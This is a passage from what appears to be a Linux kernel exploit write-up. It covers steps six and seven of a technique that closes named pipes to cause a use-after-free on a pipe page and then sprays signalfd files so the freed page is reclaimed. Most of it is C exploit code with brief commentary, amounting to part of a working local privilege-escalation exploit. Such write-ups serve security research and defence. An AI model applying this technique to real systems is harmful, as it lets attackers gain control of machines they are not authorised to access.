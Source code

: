 ```c
// ------------------------ [ main ] --------------------------

for_each_task(tasks.group_1, tsk)
	task_ctl(tsk, TASK_REOPEN_FIFO);

// -------------------- [ Tasks in group 1 ] ---------------------

for (int i = 0; i < NUM_FIFO; i++) {
	fifo_fd_B[i] = open_fifo(fifo_path[i]); // pipe->files++
	write(fifo_fd_B[i], buff, 0x800); // pipe->head -> 1
	read(fifo_fd_B[i], buff, 0x800); // pipe->tail -> 1
}
```

**@step(6): Close all named pipes**

Now we close all the pipes. This will decrement the `pipe->files` counter of the victim pipe to zero, leading to the release of `pipe->tmp_page` along with the pipe itself.

This results in a UAF condition, as we still hold a reference to the corrupted named pipe file descriptor in the `fifo_fd_A[]` array (opened in step 3):

>In this step we also write `PAGE_SIZE (4096)` bytes to the page (in the case of the victim pipe we actually write to a free page). This will allows us to read the page of memory later after spraying signalfd files.

```c
// ------------------------ [ main ] --------------------------

for_each_task(tasks.group_1, tsk)
	task_ctl(tsk, TASK_CAUSE_UAF);

// -------------------- [ Tasks in group 1 ] ---------------------

for (int i = 0; i < NUM_FIFO; i++) {
	close(fifo_fd_B[i]);
	write(fifo_fd_A[i], buff, PAGE_SIZE);
}
```

**@step(7): Spray signalfd files**

We are ready to spray signalfd files. The free page is reclaimed by one of the `filp` slabs:

```c
// ------------------------ [ main ] --------------------------

for_each_task(tasks.group_2, tsk)
	task_ctl(tsk, TASK_ALLOC_SIGNALFD);

// -------------------- [ Tasks in group 2 ] ---------------------

for (int i = 0; i < NUM_SIGNALFD_FILES; i++)
	sig_fd[i] = alloc_signalfd(-1);
```
